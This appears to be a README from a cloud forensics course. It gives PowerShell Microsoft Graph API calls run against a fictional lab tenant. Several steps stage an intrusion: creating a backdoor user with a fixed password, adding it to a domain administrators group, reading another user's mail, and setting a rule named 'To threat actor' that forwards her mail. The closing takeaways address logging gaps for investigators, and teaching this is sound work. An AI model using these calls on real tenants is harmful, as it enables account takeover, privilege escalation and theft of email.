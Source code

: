 Graph API is an extremely powerful way to interact with the Microsoft 365 cloud. 

We selected a few of example that you may find interesting and provide the PowerShell code used to generate the Graph API calls.
We hope that you can use this code to learn more about Graph API and leverage its power in your own environment.

To issue this Graph API calls, you must have an existing application defined and approved as well as an associated secret (ie. password).


### Explore the Graph API


***Install the authentication library PowerShell module***
    ```
    Install-Module -Name MSAL.PS -RequiredVersion 4.2.1.3 -Scope CurrentUser
    ```
    For more information, see https://www.powershellgallery.com/packages/MSAL.PS/4.2.1.3

***Request a token***  
Prior to issuing a Graph API call, you must request a token. This code will be at the start of your session and must be re-issued once the token expires.
    ```
    $tenantId = "<name of your tenant>"
    $clientID = "<application id>"
    $clientSecret = (ConvertTo-SecureString "<application secret>" -AsPlainText -Force )
    $Scope = "https://graph.microsoft.com/.default"
    $authToken = Get-MsalToken -ClientId $clientID -ClientSecret $clientSecret -TenantId $tenantId -Scopes $Scope
    $Headers = @{
            "Authorization" = "Bearer $($authToken.AccessToken)"
            "Content-type"  = "application/json"
		    "Prefer"        = "outlook.body-content-type='text'"
        }   
    ```

***Create a user***  
    Permissions required: `User.ReadWrite.All` and `Directory.ReadWrite.All`
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users"
    $usr = @{
    "userPrincipalName"="Hydra@pymtechlabs.com"
    "displayName"="Hydra"
    "mailNickname"="Hydra"
    "accountEnabled"="true"
    "passwordProfile"= @{
        "forceChangePasswordNextSignIn" = "false"
        "forceChangePasswordNextSignInWithMfa" = "false"
        "password"="HdrwillNev3rdie!"
        }
    } | ConvertTo-Json
 
    $result = Invoke-RestMethod -Uri $apiUri -Headers $Headers -Method POST -ContentType "application/json" -Body $usr
	$result
    ```

***Get list of users***
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users/"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $users = ($response | Select-Object Value).Value 
    $users | Format-Table displayName, userPrincipalname, id
    ```

Sample output from the FOR509 class. You will need the id of your targeted user for future steps.
    ```
    displayName    userPrincipalName          id
    -----------    -----------------          --
    Hank Pym       admin@pymtechlabs.com      675be0f4-2486-4443-bef6-d37d9043ae99
    Hydra          Hydra@pymtechlabs.com      a32bd224-fa32-493f-9301-ca9aeb596fdc
    Janet Van Dyne JVanDyne@pymtechlabs.com   76362af6-e38a-41e7-adab-e21ad7e23a20
    ```

***Get list of groups***
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/groups"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $groups = ($response | Select-Object Value).Value 
    $groups | Format-Table displayName,id
    ```

Sample output from the FOR509 class. You will need the id of the targeted group.
    ```
    displayName           id
    -----------           --
    MFA Users             0727a4c3-ea16-4dcf-a0da-083109e513b5
    EW                    24b27528-e062-467d-a911-8665f10b3c8d
    RescuePlan            2e6b56d6-0136-4d39-9308-322be3ea1801
    AAD DC Administrators a862b324-6af9-4cd1-a8f2-e3289aa8bc9d
    Pym Tech Labs         bce367dd-e1e4-4454-b652-ad846f67c5fb
    All Company           ebb67aa0-3ce5-4e76-a1ce-b74b4b64949f
    ```

***Add Hydra@pymtechlabs.com to the AAD DC Administrators group***
    ```
    $body = [ordered]@{
    "@odata.id"="https://graph.microsoft.com/v1.0/users/Hydra@pymtechlabs.com"
    } | ConvertTo-Json

    $apiUri = "https://graph.microsoft.com/v1.0/groups/a862b324-6af9-4cd1-a8f2-e3289aa8bc9d/members/`$ref"
	Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body
    ```

***Get list of Janet's email***  
Permission required: `Mail.Read`
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/messages"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $Emails = ($response | Select-Object Value).Value
    $Emails | Select-Object  @{Name = 'From'; Expression = {(($_.sender).emailaddress).name}}, @{Name = 'To'; Expression = {(($_.toRecipients).emailaddress).name}}, subject, hasattachments, isRead

    $Emails | Select-Object -ExpandProperty id
    ```

***Create a calendar event in Janet's calendar***  
Permission required: `Calendars.ReadWrite`
    ```
    $body = @{
        "subject"="FOR509 Class"
        "body"= @{
        "contentType"="HTML"
        "content"="Enterprise Cloud Forensics and Incident Response"
    }
    "start"= @{
        "dateTime"="2021-08-13T08:00:00"
        "timeZone"="Pacific Standard Time"
    }
    "end"= @{
        "dateTime"="2021-08-17T08:00:00"
        "timeZone"="Pacific Standard Time"
    }
    "location"= @{
        "displayName"="LiveOnline"
    }
    "attendees"= @( @{
        "emailAddress"= @{
	        "address"="JVanDyne@pymtechlabs.com"
		    "name"="Janet Van Dyne"
		}
        "type"="Required"
    }
    )
    "allowNewTimeProposals"= "false"
    "isOnlineMeeting"= "true"
     "onlineMeetingProvider"="teamsForBusiness"
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/calendar/events"
    Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body
    ```

***List calendar events***
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/calendar/events"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $Events = ($response | Select-Object Value).Value 
    $Events | Format-Table subject,start    
    ```

***Create a contact***  
Permission required: `Contacts.ReadWrite`
    ```
    $body = @{
        "givenName"="Pierre"
	    "surname"="Lidome"
        "emailAddresses"= @( @{
            "address"="plidome@sans.org"
	        "name"="Pierre Lidome"
        }   
    )
    "businessHomePAge"= "@texaquila"
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/contacts"
	$response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body
    ```

***List contacts to make sure the new contact was created***
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/contacts"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $contacts = ($response | Select-Object Value).Value 
    $contacts | Format-Table displayName,businessHomePage,emailAddresses
    ```

***Create a message rule to forward Janet's email sent by Hank to Hydra's email***  
Permission required: `MailboxSettings.ReadWrite`
    ```
    $body = @{
        "displayName"="To threat actor"
	    "sequence"="2"
	    "isEnabled"="true"
	    "conditions"= @{
	        "senderContains"= @(
	            "admin"
		    )
	    }
	"actions"= @{
	    "forwardTo"= @(
	    @{
	       "emailAddress"= @{
		      "name"="Hydra"
			  "address"="hydra@pymtechlabs.com"
			}
		}
		)
	    "stopProcessingRules"="true"
	}
    } | ConvertTo-Json -Depth 100

    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/mailFolders/inbox/messageRules"
    Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method POST -ContentType "application/json" -Body $body
    ```

***List rules to verify the new rule was created***
    ```
    $apiUri = "https://graph.microsoft.com/v1.0/users/76362af6-e38a-41e7-adab-e21ad7e23a20/mailFolders/inbox/messageRules"
    $response = Invoke-RestMethod -Headers $Headers -Uri $apiUri -Method GET
    $response.value
    ```

***Change profile picture (must be less than 100kb)***  
    ```
    $UPN="Hydra@pymtechlabs.com"
    $Photo="C:\pictures\hydra.jpg"
    $URLPhoto = "https://graph.microsoft.com/v1.0/users/$UPN/photo/$value" 
    Invoke-WebRequest -uri $URLPhoto -Headers $Headers -Method PUT -Infile $Photo -ContentType 'image/jpg'
    ```


## Key Takeaways

- Graph API is very powerfull but not everything is logged
- Even when logs are available they may provide insufficient information for our investigation
- Be very careful what permissions you give to an app
- Be sure to safeguard credentials to these apps
- Logs show that all accesses originate from Microsoft IP addresses making it very difficult to track threat actors
